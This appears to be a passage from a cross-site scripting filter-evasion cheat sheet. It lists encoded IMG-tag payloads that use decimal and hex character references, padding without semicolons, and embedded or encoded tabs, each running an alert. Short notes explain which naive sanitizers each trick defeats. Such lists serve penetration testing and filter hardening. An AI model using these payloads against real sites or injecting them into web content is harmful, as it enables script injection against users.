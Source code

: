 ## IMG onerror and javascript alert encode

<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">

## Decimal HTML character references

all of the XSS examples that use a javascript: directive inside of an
\<IMG tag will not work in Firefox or Netscape 8.1+ in the Gecko
rendering engine mode).

`<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;`  
`&#39;&#88;&#83;&#83;&#39;&#41;>`

## Decimal HTML character references without trailing semicolons

This is often effective in XSS that attempts to look for "&\#XX;", since
most people don't know about padding - up to 7 numeric characters total.
This is also useful against people who decode against strings like
$tmp\_string =\~ s/.\*\\&\#(\\d+);.\*/$1/; which incorrectly assumes a
semicolon is required to terminate a html encoded string (I've seen this
in the wild):

`<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&`  
`#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>`

## Hexadecimal HTML character references without trailing semicolons

This is also a viable XSS attack against the above string $tmp\_string
=\~ s/.\*\\&\#(\\d+);.\*/$1/; which assumes that there is a numeric
character following the pound symbol - which is not true with hex HTML
characters).

<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>

## Embedded tab

Used to break up the cross site scripting attack:

<IMG SRC="jav&#x09;ascript:alert('XSS');">

## Embedded Encoded tab

Use this one to break up XSS :

<IMG SRC="jav&amp;#x09;ascript:alert('XSS');">
